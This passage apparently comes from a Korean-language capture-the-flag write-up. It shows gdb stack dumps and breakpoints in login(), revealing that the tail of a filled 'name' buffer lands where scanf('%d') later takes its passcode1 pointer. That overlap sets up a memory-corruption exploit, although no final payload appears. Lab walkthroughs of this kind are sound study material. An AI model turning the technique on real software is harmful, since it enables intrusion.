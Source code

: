 ```linux
0xfffa5908:     "ababababababababababababababababababababababababababababababababababababababababababababababababcdef"
(gdb) x/50wx $esp
0xfffa58f0:     0x080487dd      0xfffa5908      0xf777bd60      0xf763347b
0xfffa5900:     0xf777bd60      0x099d3008      0x62616261      0x62616261
0xfffa5910:     0x62616261      0x62616261      0x62616261      0x62616261
0xfffa5920:     0x62616261      0x62616261      0x62616261      0x62616261
0xfffa5930:     0x62616261      0x62616261      0x62616261      0x62616261
0xfffa5940:     0x62616261      0x62616261      0x62616261      0x62616261
0xfffa5950:     0x62616261      0x62616261      0x62616261      0x62616261
0xfffa5960:     0x62616261      0x62616261      0x66656463      0x0a060100
0xfffa5970:     0xf777b000      0xf777b000      0xfffa5998      0x0804867f
```
```name```의 위치는 ```0xfffa5908```부터 시작임.  
다음은 ```passcode1```의 값으로 무엇이 있는지 확인할꺼임.  
```break point```는 ```login+39```로 설정함.  
```linux
(gdb) c
Continuing.
Welcome ababababababababababababababababababababababababababababababababababababababababababababababababcdef!

Breakpoint 3, 0x0804858b in login ()
(gdb) info b
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x0804863e <welcome+53>
        breakpoint already hit 1 time
3       breakpoint     keep y   0x0804858b <login+39>
        breakpoint already hit 1 time
4       breakpoint     keep y   0x080485b9 <login+85>
```
```linux
0x08048577 <+19>:    mov    eax,0x8048783
0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
0x08048583 <+31>:    mov    DWORD PTR [esp],eax
0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>

(gdb) x/s 0x8048783
0x8048783:      "%d"
(gdb) x/2wx $esp
0xfffa5950:     0x08048783      0x66656463
(gdb) x/100wx $esp
0xfffa5950:     0x08048783      0x66656463      0x62616261      0x62616261
0xfffa5960:     0x62616261      0x62616261      0x66656463      0x0a060100
0xfffa5970:     0xf777b000      0xf777b000      0xfffa5998      0x08048684
0xfffa5980:     0x080487f0      0x08048250      0x080486a9      0x00000000
0xfffa5990:     0xf777b000      0xf777b000      0x00000000      0xf75e1637
0xfffa59a0:     0x00000001      0xfffa5a34      0xfffa5a3c      0x00000000
0xfffa59b0:     0x00000000      0x00000000      0xf777b000      0xf77b7c04
0xfffa59c0:     0xf77b7000      0x00000000      0xf777b000      0xf777b000
0xfffa59d0:     0x00000000      0xbc2c21bd      0xf4b48fac      0x00000000
0xfffa59e0:     0x00000000      0x00000000      0x00000001      0x080484b0
0xfffa59f0:     0x00000000      0xf77a8010      0xf77a2880      0xf77b7000
0xfffa5a00:     0x00000001      0x080484b0      0x00000000      0x080484d1
0xfffa5a10:     0x08048665      0x00000001      0xfffa5a34      0x080486a0
0xfffa5a20:     0x08048710      0xf77a2880      0xfffa5a2c      0xf77b7918
0xfffa5a30:     0x00000001      0xfffa6dbc      0x00000000      0xfffa6dd4
0xfffa5a40:     0xfffa6dea      0xfffa6dfa      0xfffa6e0e      0xfffa6e32
0xfffa5a50:     0xfffa6e46      0xfffa6e54      0xfffa6e60      0xfffa6ec8
0xfffa5a60:     0xfffa6ee0      0xfffa6eef      0xfffa6f02      0xfffa6f13
0xfffa5a70:     0xfffa6f1c      0xfffa6f30      0xfffa6f38      0xfffa6f49
0xfffa5a80:     0xfffa6f80      0xfffa6fc1      0x00000000      0x00000020
0xfffa5a90:     0xf7792b50      0x00000021      0xf7792000      0x00000010
```